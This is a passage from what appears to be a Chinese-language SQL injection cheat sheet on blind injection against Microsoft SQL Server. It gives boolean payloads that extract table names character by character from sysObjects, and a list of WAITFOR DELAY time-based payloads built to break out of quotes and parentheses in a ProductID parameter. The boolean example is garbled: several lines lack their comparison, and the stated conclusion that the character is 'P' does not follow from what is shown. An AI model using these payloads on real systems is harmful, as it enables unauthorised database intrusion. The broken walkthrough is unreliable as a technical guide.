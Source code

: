 ```
TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83-- 

TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80-- 


FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)

```

由于上面**后两个查询都是false**，我们能清楚的知道表名的第一个**字符的ASCII码是80，也就是"P"**。这就是我们通过二分算法来进行盲注的方法。其他已知的方法是一位一位(`bit by bit`)地读取数据。这些方法在不同条件下都很有效。

### 延时盲注

首先，只在完全没有提示(`really blind`)的情况下使用，否则请使用`1/0方式`通过错误来判断差异。其次，在使用20秒以上的延时时要小心，因为应用与数据库的连接API可能会判定为超时(`timeout`)。

#### WAITFOR DELAY[time](http://drops.com:8000/S)

这就跟`sleep`差不多，等待特定的时间。通过CPU来让数据库进行等待。

```
WAITFOR DELAY '0:0:10'--

```

你也可以这样用

```
WAITFOR DELAY '0:0:0.51'

```

#### 实例

*   俺是sa吗？`if (select user) = 'sa' waitfor delay '0:0:10'`
*   ProductID =`1;waitfor delay '0:0:10'--`
*   ProductID =`1);waitfor delay '0:0:10'--`
*   ProductID =`1';waitfor delay '0:0:10'--`
*   ProductID =`1');waitfor delay '0:0:10'--`
*   ProductID =`1));waitfor delay '0:0:10'--`
*   ProductID =`1'));waitfor delay '0:0:10'--`
